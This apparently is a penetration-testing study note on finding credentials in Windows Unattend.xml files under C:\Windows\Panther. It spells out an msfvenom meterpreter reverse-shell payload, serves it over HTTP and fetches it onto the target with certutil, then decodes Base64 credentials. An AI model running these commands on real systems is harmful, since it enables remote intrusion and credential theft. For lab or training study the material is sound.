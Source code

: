 # Searching for passwords in Windows configuration files

Windows can automate a variety of repetitive tasks, such as mass rollout or installing Windows in several systems. This is typically done through the use of the `Unattended Installation Setup Utility`, which is used to automate the Windows installation process.
<br>
If the Unattended Install configuration is left on in the system after the installation process is complete, they can reveal sensitive information like clear-text credentials that may be used by malicious actors.
<br>
The Unattended Windows Setup Utility will typically use one of the following configuration files that contain files that contain user accounts and system configuration information.

- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Autounattend.xml`

As a security precaution, sometimes the credentials may be stored in the Unattended configuration files may be encoded in Base64 but they can be easily decoded by an attacker.

#### GENERATING REV SHELL PAYLOAD:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.19.3 LPORT=1234 -f exe > payload.exe
```

#### TRANSFERRING PAYLOAD TO TARGET
On Attacker Machine:
```
python3 -m http.server 80
```

On Target Shell
```
certutil -urlcache -f http://10.10.19.3/payload.exe payload.exe
```

#### UNATTENDED.xml COFIG FILE - FILE PATH
```
C:\Windows\Panther
```

#### DECODING BASE64
```
echo Qwdw89h | base64 -d
```
